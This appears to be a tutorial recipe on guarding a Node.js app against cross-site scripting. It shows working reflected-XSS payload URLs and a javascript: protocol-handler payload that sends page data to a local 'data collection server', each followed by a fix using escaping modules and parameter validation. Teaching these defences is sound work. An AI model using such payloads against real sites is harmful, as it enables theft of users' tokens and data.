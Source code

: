 # Guarding against cross-site scripting

XSS attacks are client-side injection attacks where malicious scripts are injected into websites. XSS
vulnerabilities are very dangerous as they can compromise trusted websites.

Here we’re going to demonstrate an XSS vulnerability and learn how we can protect against
them. We’ll be using the `he` (<https://www.npmjs.com/package/he>) `npm` module to do so.

1. First, start the server with the following command: `$ node server.js`
2. The server is emulating a service status web page. The web page accepts three
   parameters: `previous`, `token`, and `lang`. It’s common practice to have parameters
   such as these injected into URLs in real-world web applications. Navigate to
   <http://localhost:3000/?previous=/&token=TOKEN&lang=en>; where it should say 'All systems are running'.
3. Now, we can craft an XSS attack. We will craft a URL that will inject parameters to change the
   service status message to `All systems are down!`. We’re aiming to inject the following
   JavaScript via the URL parameters:
   ```JavaScript
   document.getElementById("status").innerHTML="All systems are down!";
   ```
4. We can inject this script using the following HTTP request:
   <http://localhost:3000/?previous=%22%3E%3Cscri&token=pt%3Edocument.getElementById(%22status%22).innerHTML=%22All%20systems%20are%20down!%22;%3C&lang=script%3E%20%3Ca%20href=%22/>
5. Now, the web page will show All systems are down!. So, visitors to our legitimate service
   status page will see a malicious message. These attacks typically send the malicious URL to an
   unsuspecting consumer of the website.
6. We can see the code that’s been injected by using the **View Page Source** interface in your
   browser.

7. To fix the application, we need to escape/sanitize the input. To escape or sanitize the input, we’ll use a module named `he`.
   Start the fixed server:

   ```Bash
   $ node fixed-server.js
   Server listening on port 3000
   ```

8. Attempt to access the malicious URL again:
   <http://localhost:3000/?previous=%22%3E%3Cscri&token=pt%3Edocument.getElementById(%22status%22).innerHTML=%22All%20systems%20are%20down!%22;%3C&lang=script%3E%20%3Ca%20href=%22/>
9. Observe that this time, we get the expected **All systems are running**. output. Our injection
   attack no longer works!

With that, we’ve learned how to use the `he` module to prevent an XSS attack.

## How it works…

XSS attacks are client-side injection attacks where malicious scripts are injected into trusted websites.
The general flow of an XSS attack is as follows:

1. Malicious input enters the application – typically via a web request.

2. The input is rendered as dynamic content on the web page because the input hasn’t been
   sanitized appropriately.

The two main types of XSS attacks are persistent XSS and reflected XSS. With persistent XSS attacks,
malicious data is injected into a persistence layer of the system. For example, it could be injected into
a field within a database.

Reflected XSS attacks are reliant on a single interaction with the server – for example, sending a single
HTTP request. The attack demonstrated in this recipe was a reflected XSS attack sent over an HTTP
request containing malicious input.

The exploit in this recipe was due to the way the `href` value was formulated for the **Back** link. We
started the injection process by assigning the `%22%3E%3Cscri` value, which, when decoded, is
equal to `"><scri`. This value closes an HTML anchor tag and starts an HTML script element that’s
ready to inject our script. The remaining values are set to inject the following code into the web page:
`"><script>document.getElementById("status").innerHTML="All systems are down!";</script> <a href="`
Note that the attack wouldn’t have worked with a single parameter as many modern browsers have
built-in XSS auditors to prevent the obvious injection of `<script>` tags.

**Important note:**
You can use Node.js’s `decodeURI()` method to decode encoded URIs. For example, `$ node -p "decodeURI('%22%3E%3Cscri')"` would output `"><scri`.

We fixed this vulnerability using the `he` module. We use the `he` module’s `encode()` function to do
so. This function accepts text that’s expected to be HTML or XML input and returns it in escaped form.
This is how we sanitize the input and stop the `<script>` tag from being injected into the web page.

All input to our server should be validated and sanitized before use. This includes indirect inputs to
data stores as these may be used to conduct persistent XSS attacks.

## There’s more…

There are some other types of XSS attacks that we can still use to harm our server. Let’s demonstrate
these attacks and learn how we can help prevent them.

### Protocol-handler XSS

The fixed server from this recipe is still vulnerable to some other types of XSS. In this scenario, we’ll
pretend that the status value is privileged information that the attacker shouldn’t be able to read.

The flow of this attack is to create a malicious data collection server that injects a script into the web
page that obtains the information and then forwards it to the data collection server.

1. We can start the data collection server:
   ```Bash
   $ node collection-server.js
   Collection Server listening on port 3001
   ```
2. In a second terminal window, restart the `fixed-server.js` file:
   ```Bash
   $ node fixed-server.js
   Server listening on port 3000
   ```
3. In your browser window, visit the following URL:
   <http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/&token=TOKEN&lang=en>

4. The web page should look the same as before, still showing the `All systems are running.`
   message. However, the XSS injection has updated the `href` value of the **Back** hyperlink so
   that it directs us to the following:
   ` javascript:(new Image().src)=``http://localhost:3001/attack/${btoa(document.getElementById(status).innerHTML)}``,0/ `
   The link starts with `javascript:`, which is a protocol handler that allows JavaScript execution
   as a URI. When this link is clicked, an HTML image element (`<img>`) is created with the `src`
   value set to the address of our data collection server. The `btoa()` function Base64 encodes
   the value of the status. Here, `,0` is appended to the end to cause the expression to evaluate to
   `false` – ensuring that the image isn’t rendered.
5. Click the **Back** link and check the data collection server. You’ll see that the status has been
   received, as follows:
   ```Bash
   $ node collection-server.js
   ::1 All systems are running.
   ```
   To highlight the dangers of these attacks, imagine that this was real privileged data, such as
   credentials or tokens. By just sending a malicious link to a user and having them click on it,
   we could obtain their sensitive data via our collection server.

The server is still vulnerable because we can still inject values into the `href` attribute. The
safest way to avoid this is by not allowing input to determine the value of the `href` attribute.

We’ll fix this vulnerability by installing the `escape-html` module!

Start `protocol-safe-server.js`:

```Bash
$ node protocol-safe-server.js
Server listening on port 3000
```

With the data collection server still running, revisit the malicious URL and click **Back**:
<http://localhost:3000/?previous=javascript:(new%20Image().src)=`http://localhost:3001/attack/${btoa(document.getElementById(%22status%22).innerHTML)}`,0/>

You’ll observe that the request fails, and the data collection server doesn’t receive the privileged data.
This is because the link to our malicious server has been sanitized.

**Important note:**
This chapter covered HTML encoding and modules that can be used to help escape HTML.
Similarly, for escaping JavaScript, the jsesc module (<https://www.npmjs.com/package/jsesc>) could be used.
However, embedding input into JavaScript is generally
considered high risk, so you should evaluate your reasons for doing so.

### Parameter validation

The browser can only show a portion of a very long URL in the address bar. This means that for very
long URLs with many parameters, you may not see what’s appended to the end of the URL. This makes
it more challenging to identify malicious URLs.

If your application’s typical usage doesn’t involve very long URLs, then it would be prudent to add
some constraints to what URLs your application will accept.

Start `constraints-server.js`:

```Bash
$ node constraints-server.js
Server listening on port 3000
```

Test by navigating to the following URLs, all of which should fail validation checks:

- <http://localhost:3000/?previous=sixteencharacter&token=six-teencharacter>

- <http://localhost:3000/?previous=sixteencharacter&token=six-teencharacter&lang=en&extra=value>

- <http://localhost:3000/?previous=characters&token=sixteenchar-acter&lang=abc>

The following URL should work as it satisfies all of the constraints:

- <http://localhost:3000/?previous=sixteencharacter&token=six-teencharacter&lang=en>

Any user input should be escaped and validated where possible to help prevent XSS injection attacks.
